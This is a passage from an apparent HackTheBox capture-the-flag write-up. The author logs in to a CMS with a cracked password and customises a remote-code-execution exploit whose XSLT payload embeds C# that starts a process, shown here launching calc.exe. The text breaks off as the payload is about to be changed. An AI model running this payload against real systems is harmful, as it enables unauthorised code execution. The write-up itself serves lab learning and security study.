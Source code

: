     Started: Sat Mar 21 20:00:34 2020            
    Stopped: Sat Mar 21 20:00:51 2020  



It cracks to "baconandcheese".

#### Login

The username admin doesn't work, but the username "admin@htb.local"
does.

![](/img/image-20200322151028207.png)

### Exploit

Typically with a CMS I would look to upload a webshell. In this case,
since I already have a potential RCE exploit, I'll start there.

#### Customize Exploit

The exploit requires some customization to get it working, all of this
goes in this section:



    # Execute a calc for the PoC
    payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
    xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
    <msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
    { string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
     proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
     proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
     proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
     </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
     </xsl:template> </xsl:stylesheet> ';

    login = "XXXX";
    password="XXXX";
    host = "XXXX";



I'll update the `login` to "admin@htb.local", the `password` to
"baconandcheese", and the `host` to "http://10.10.10.180" (originally I
just had the IP, but that leads to an error).

I'll also need to update the `payload`. It currently launched calc.
Obviously I want to change that. I'll focus on this section (with some
added whitespace):



    { string cmd = ""; 
     System.Diagnostics.Process proc = new System.Diagnostics.Process();
     proc.StartInfo.FileName = "calc.exe"; 
     proc.StartInfo.Arguments = cmd;
     proc.StartInfo.UseShellExecute = false; 
     proc.StartInfo.RedirectStandardOutput = true;
     proc.Start(); 
     string output = proc.StandardOutput.ReadToEnd(); 
     return output; }
